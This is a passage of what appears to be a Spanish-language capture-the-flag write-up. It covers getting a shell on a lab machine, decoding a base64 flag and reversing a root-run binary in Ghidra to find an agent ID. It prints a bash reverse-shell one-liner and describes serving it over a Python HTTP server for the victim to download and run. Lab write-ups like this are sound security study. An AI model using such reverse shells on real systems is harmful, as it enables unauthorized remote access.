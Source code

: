 
```bash
bash -i >&/dev/tcp/ip/puerto 0>&1
```

Lo siguiente que tenemos que hacer es un servidor http con python en el directorio donde hemos creado el archivo.sh para luego poder acceder a este desde la maquina victima 


![[Pasted image 20240324143409.png]]

Ahora ya hecho esto lo siguiente que tenemos que hacer es dirigirnos al archivo que hemos subido y por el parametro especificamos que queremos descargar el archivo .sh con   y seguidamente lo ejecutamos esto lo hariamos de la siguiente manera


![[Pasted image 20240324180923.png]]


Y listo como podemos ver nos ha dado una shell


![[Pasted image 20240324181033.png]]

Al listar la carpeta uploads podemos ver que hay una flag la cual tiene algo en base 64 


![[Pasted image 20240324182443.png]]

Al decodificar el contenido de la flag nos muestra un texto que dice agentservices por lo que probablemente la siguiente flag tenga que ver algo con esto

![[Pasted image 20240324182636.png]]


Entonces lo que hice fue que me puse a buscar archivos que se llamaran agent y me encontre con un binario de 32 bits el cual al ejecutarlo nos pedia la id de un agente

![[Pasted image 20240327213100.png]]


Tambien al hacer un netstat -ant podemos ver que hay varios serivodres corriendo el que esta corriendo en el puerto 7788 se ve algo interesante

![[Pasted image 20240327210809.png]]

Al conectarnos con ayuda de netcat a ese puerto en especifico podemos ver que al parecer se esta corriendo el mismo binario que hemos visto antes 


![[Pasted image 20240327211838.png]]

Si vemos los procesos vemos que este binario se esta ejecutando por el usuario root 


![[Pasted image 20240327212242.png]]



Asi que me pase el binario a mi maquina y lo empece a analizar con ayuda de ghidra al ver el codigo de la funcion main pude encontrar el agent id valido el cual es el 48093572 y  este numero se hacia una comparativa con el input ingresado 

